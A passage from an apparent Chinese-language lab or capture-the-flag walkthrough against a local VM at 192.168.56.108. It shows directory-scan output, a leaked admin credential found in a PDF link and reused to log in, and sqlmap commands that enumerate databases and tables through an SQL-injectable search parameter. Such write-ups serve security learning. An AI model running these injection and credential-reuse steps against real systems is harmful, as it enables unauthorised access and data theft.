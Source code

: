 ```shell
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      314c http://192.168.56.108/img => http://192.168.56.108/img/
301      GET        9l       28w      316c http://192.168.56.108/login => http://192.168.56.108/login/
200      GET      117l      627w    49089c http://192.168.56.108/img/image1
200      GET     1121l     5980w   469563c http://192.168.56.108/img/image2
200      GET       76l      291w     3479c http://192.168.56.108/
301      GET        9l       28w      317c http://192.168.56.108/joinus => http://192.168.56.108/joinus/
```

对 `http://192.168.56.108/joinus/` 这个路径进行探测，发现以下信息

```plaintext title="http://192.168.56.108/joinus/application_form.pdf"
https://nebulalabs.org/meetings?user=admin&password=d46df8e6a5627debf930f7b5c8f3b083
```

得到以下凭据

```plaintext
admin:d46df8e6a5627debf930f7b5c8f3b083
```

成功登陆后台

### 搜索功能存在 sql 注入

对浏览器的访问请求进行抓包

```plaintext
GET /login/search_central.php?id=1 HTTP/1.1
Host: 192.168.56.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive
Referer: http://192.168.56.108/login/search_central.php?id=1
Cookie: PHPSESSID=p8mg4vbtsjc4iahtr48g4koi76
Upgrade-Insecure-Requests: 1
```

将原始请求的数据保存为 `sqlmap.txt` 文件，进行自动化攻击

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $sqlmap -r sqlmap.txt --dbs
......
[*] information_schema
[*] nebuladb
┌─[randark@parrot]─[~/tmp]
└──╼ $sqlmap -r sqlmap.txt -D nebuladb --tables
......
+----------+
| central  |
| centrals |
| users    |
+----------+
```
